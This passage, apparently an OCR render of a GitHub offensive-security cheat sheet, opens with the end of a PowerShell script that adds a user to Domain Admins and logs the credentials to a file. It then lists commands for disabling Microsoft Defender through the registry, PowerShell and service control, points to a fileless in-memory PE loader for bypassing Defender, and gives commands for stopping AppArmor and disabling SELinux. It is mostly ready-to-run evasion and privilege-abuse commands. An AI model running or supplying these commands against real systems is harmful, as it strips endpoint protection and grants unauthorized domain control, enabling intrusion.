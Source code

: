 ```
    Add-ADGroupMember -Identity "Domain Admins" -Members $username

    "$username : $password" | Out-File -Append $outputFile
}
```

**Defender/AppArmor/SELinux**
- Defender:
  - Disable with:
    - `reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f`
    - `gpedit.msc` > Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus > Turn off Microsoft Defender Antivirus > Enabled
    - Powershell:
      - `C:\Program Files\Windows Defender\MpCmdRun.exe -RemoveDefinitions -All`
      - `Set-MpPreference -DisableRealtimeMonitoring $true`
      - `Remove-WindowsFeature Windows-Defender, Windows-Defender-GUI`
      - `Stop-Service WinDefend -Force`
      - `Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1 -Type DWord -Force`
      - `Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Policy Manager" -Name "AllowAntivirus" -Value 0 -Type DWord`
    - Then reboot?
  - Bypassing with FilelessPELoader:
    - `https://github.com/SaadAhla/FilelessPELoader`
    - Can load from memory
- AppArmor:
  - `sudo systemctl stop apparmor`, `sudo systemctl disable apparmor`, `sudo apt purge apparmor`
- SELinux:
  - Status with `sestatus`
  - Temp disable: `sudo setenforce 0` or `sudo setenforce permissive`
  - Permanent disable: set `SELINUX=enforcing` to `disabled` in `/etc/selinux/config` and reboot